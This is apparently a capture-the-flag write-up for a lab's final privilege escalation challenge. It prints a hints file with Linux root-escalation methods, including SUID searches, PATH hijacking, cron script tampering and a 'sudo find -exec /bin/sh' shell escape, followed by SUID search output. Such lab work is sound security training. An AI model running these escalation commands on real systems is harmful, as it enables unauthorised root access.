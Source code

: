 ### Challenge 7: Privilege Escalation (Final Challenge)

**Objective:** Escalate privileges to root and capture the final flag.

**Steps:**

1. Examined the detailed privilege escalation hints

```bash
$ cat /home/victim/.privesc_hints.txt
PRIVILEGE ESCALATION CHALLENGE

Now that you have completed all the previous challenges, your final task is to escalate privileges to root and find the final flag.

Here are some methods to try:

1. SUID Binary Exploitation:
   - Find SUID binaries: find / -perm -u=s -type f 2>/dev/null
   - Look for unusual binaries like 'custom_backup'
   - Exploit path manipulation: create a malicious 'echo' script in your current directory

2. Sudo Exploitation:
   - Check your sudo permissions: sudo -l
   - You might be able to run certain commands as root
   - For example, if you can run 'find', try: sudo find /etc -exec /bin/sh \;

3. Writable Cron Jobs:
   - Check for cron jobs: cat /etc/cron.d/*
   - Look for writable scripts in directories like /opt/scripts/
   - If you can modify a script run by root, add your own commands

4. Path Hijacking:
   - Check if your PATH includes the current directory (.)
   - If so, you can create malicious versions of commands

5. Kernel Exploits:
   - Check kernel version: uname -r
   - Research known exploits for this version

The final flag is in /root/root_flag.txt

Good luck!
```

2. Searched for SUID binaries

```bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/local/bin/custom_backup
...
```
